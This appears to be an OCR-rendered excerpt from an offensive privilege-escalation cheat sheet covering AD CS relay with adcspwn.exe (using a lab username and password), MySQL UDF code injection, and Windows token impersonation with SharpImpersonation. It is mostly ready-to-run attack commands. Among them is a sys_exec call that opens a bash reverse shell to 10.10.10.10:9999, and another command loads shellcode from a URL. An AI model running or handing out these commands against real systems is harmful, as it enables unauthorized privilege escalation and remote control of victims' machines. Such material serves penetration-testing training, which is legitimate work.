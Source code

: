 adcspwn.exe \--adcs cs.pwnlab.local \--remote dc.pwnlab.local \--output
C:\\Temp\\cert_b64.txt

adcspwn.exe \--adcs cs.pwnlab.local \--remote dc.pwnlab.local
\--username pwnlab.local\\mranderson \--password The0nly0ne! \--dc
dc.pwnlab.local

<a name="mysql-udf-code-injection"></a>
# MySQL UDF Code Injection

Domain: Yes

Local Admin: Yes

OS: Linux

Type: Injection

Methods:

mysql -u root -p

mysql\> use mysql;

mysql\> create table admin(line blob);

mysql\> insert into admin
values(load_file(\'/tmp/lib_mysqludf_sys.so\'));

mysql\> select \* from admin into dumpfile
\'/usr/lib/lib_mysqludf_sys.so\';

mysql\> create function sys_exec returns integer soname
\'lib_mysqludf_sys.so\';

mysql\> select sys_exec(\'bash -i \>& /dev/tcp/10.10.10.10/9999
0\>&1\');

<a name="impersonation-token-with-impersonateloggedonuser"></a>
# Impersonation Token with ImpersonateLoggedOnuser

Domain: No

Local Admin: Yes

OS: Windows

Type: Injection

Methods:

1.SharpImpersonation.exe user:\<user\> shellcode:\<URL\>

2.SharpImpersonation.exe user:\<user\> technique:ImpersonateLoggedOnuser

# 

<a name="impersonation-token-with-seimpersonteprivilege"></a>
# Impersonation Token with SeImpersontePrivilege
